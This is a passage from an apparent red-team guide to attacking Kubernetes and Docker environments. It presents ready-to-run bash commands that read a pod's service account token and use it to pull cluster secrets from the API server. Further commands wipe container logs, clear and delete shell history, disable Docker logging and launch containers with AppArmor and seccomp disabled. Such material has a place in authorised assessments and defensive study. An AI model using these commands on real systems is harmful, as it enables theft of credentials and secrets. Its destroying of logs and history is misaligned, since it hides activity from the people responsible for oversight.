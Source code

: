 ### Abusing Pod Service Accounts

```bash
# Create a pod using the default service account
cat << EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: sa-abuse-pod
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["sleep", "1000000"]
EOF

# Access service account token
kubectl exec -it sa-abuse-pod -- /bin/sh -c "cat /var/run/secrets/kubernetes.io/serviceaccount/token"

# Use token for API access
kubectl exec -it sa-abuse-pod -- /bin/sh
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc
curl -k -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/namespaces/default/secrets
```

## Defense Evasion in Container Environments

When performing red team assessments, evading detection is crucial.

### Hiding Container Activities

```bash
# Remove container logs
truncate -s 0 $(docker inspect --format='{{.LogPath}}' [container-id])

# Clean up Docker command history
history -c
rm -rf ~/.bash_history

# Disable Docker logging
docker run --log-driver=none alpine sh
```

### Bypassing AppArmor and Seccomp

```bash
# Check for AppArmor profiles
cat /proc/self/attr/current

# Test for Seccomp restrictions
unshare --map-root-user
seccomp-tools dump

# Launch container with disabled security profiles
docker run --security-opt apparmor=unconfined --security-opt seccomp=unconfined -it alpine sh
```
